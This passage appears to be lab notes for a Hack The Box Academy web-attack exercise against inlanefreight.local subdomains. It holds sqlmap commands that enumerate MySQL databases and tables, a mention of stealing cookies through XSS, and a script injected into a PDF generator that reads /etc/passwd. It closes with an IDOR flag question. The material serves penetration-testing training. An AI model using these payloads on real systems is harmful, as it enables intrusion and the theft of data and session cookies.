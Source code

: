 run this through sqlmap

```shell-session
sqlmap -r sqli.txt --dbms=mysql 

sqlmap -r sqli.txt --dbms=mysql --dbs

sqlmap -r sqli.txt --dbms=mysql -D status --tables
```

### support.inlanefreight.local

Vulnerable to XSS, we can get the cookie and use the cookie-editor

![Cookie editor](https://academy.hackthebox.com/storage/modules/163/edit\_cookie.png)

### tracking.inlanefreight.local

This page is vulnerable to `pdf HTML injection`

Example of injecting `<script>document.write('TESTING THIS')</script>`

![pdf generating](https://academy.hackthebox.com/storage/modules/163/tracking\_rendered.png)

{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
SSRF Blog 1
{% endembed %}

{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
SSRF Blog 2
{% endembed %}

```javascript
	<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```

![Using the above payload to get LFI](https://academy.hackthebox.com/storage/modules/163/ssrf\_file\_read.png)

## Assessment

**Use the IDOR vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).**
